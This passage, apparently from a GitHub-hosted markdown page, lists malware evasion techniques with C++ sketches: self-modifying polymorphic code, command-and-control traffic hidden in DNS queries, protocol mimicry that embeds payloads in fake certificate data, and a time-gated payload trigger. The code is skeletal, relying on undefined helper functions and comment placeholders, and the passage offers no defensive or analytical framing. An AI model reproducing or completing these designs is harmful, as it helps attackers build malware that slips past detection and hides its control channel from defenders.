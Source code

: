### Code Polymorphism at Runtime
```cpp
class RuntimePolymorphism {
public:
    static void MutateCode() {
        // Continuously modify code while executing
        // Each instance looks completely different
        BYTE* code = GetCurrentFunction();
        ApplyRandomTransformations(code);
        FlushInstructionCache(GetCurrentProcess(), code, 1000);
    }
};
```

## 4. **Network-Level Evasion**

### DNS-over-HTTPS Command & Control
```cpp
// Use legitimate DNS traffic to hide C2 communications
class DNSEvasion {
public:
    static void SendCommand(const std::string& cmd) {
        // Encode command in DNS query
        std::string query = EncodeBase32(cmd) + ".legitimate-domain.com";
        // Send through system DNS resolver
        ResolveDNS(query);
    }
};
```

### Protocol Mimicry
```cpp
// Hide network traffic as legitimate protocols
void MimicHTTPS() {
    // Create fake HTTPS handshake
    // Embed payload in fake certificate data
    // Use real certificate authorities for validation
}
```

## 5. **Time-Based Evasion**

### Chronomorphic Code
```cpp
// Code that changes behavior based on time
class ChronomorphicEvasion {
public:
    static void ExecuteIfSafe() {
        auto now = std::chrono::system_clock::now();
        auto time_t = std::chrono::system_clock::to_time_t(now);
        
        // Only activate during certain hours/days
        if (IsSafeTime(time_t)) {
            ActivatePayload();
        } else {
            DormantBehavior();
        }
    }
};
```

